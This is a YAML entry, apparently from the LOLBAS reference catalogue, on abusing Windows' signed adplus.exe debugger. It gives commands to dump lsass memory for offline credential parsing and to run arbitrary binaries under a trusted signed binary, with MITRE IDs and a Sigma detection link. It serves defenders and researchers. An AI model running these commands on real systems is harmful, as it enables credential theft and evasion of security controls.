 ```yaml
---
Name: adplus.exe
Description: Debugging tool included with Windows Debugging Tools
Author: mr.d0x
Created: 2021-09-01
Commands:
  - Command: adplus.exe -hang -pn lsass.exe -o {PATH_ABSOLUTE:folder} -quiet
    Description: Creates a memory dump of the lsass process
    Usecase: Create memory dump and parse it offline
    Category: Dump
    Privileges: SYSTEM
    MitreID: T1003.001
    OperatingSystem: All Windows
  - Command: adplus.exe -c {PATH:.xml}
    Description: Execute arbitrary commands using adplus config file (see Resources section for a sample file).
    Usecase: Run commands under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: All Windows
    Tags:
      - Execute: CMD
  - Command: adplus.exe -c {PATH:.xml}
    Description: Dump process memory using adplus config file (see Resources section for a sample file).
    Usecase: Run commands under a trusted Microsoft signed binary
    Category: Dump
    Privileges: SYSTEM
    MitreID: T1003.001
    OperatingSystem: All Windows
  - Command: adplus.exe -crash -o "C:\temp\" -sc calc.exe
    Description: Execute arbitrary commands and binaries from the context of adplus. Note that providing an output directory via '-o' is required.
    Usecase: Run commands under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: All windows
    Tags:
      - Execute: CMD
      - Execute: EXE
Full_Path:
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\adplus.exe
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x86\adplus.exe
Code_Sample:
  - Code: https://gist.github.com/nasbench/e34ca2cd90e3a845a558a102a4f607da
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6199a703221a98ae6ad343c79c558da375203e4e/rules/windows/process_creation/proc_creation_win_lolbin_adplus.yml
  - IOC: As a Windows SDK binary, execution on a system may be suspicious
Resources:
  - Link: https://mrd0x.com/adplus-debugging-tool-lsass-dump/
  - Link: https://twitter.com/nas_bench/status/1534916659676422152
  - Link: https://twitter.com/nas_bench/status/1534915321856917506
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
---
```

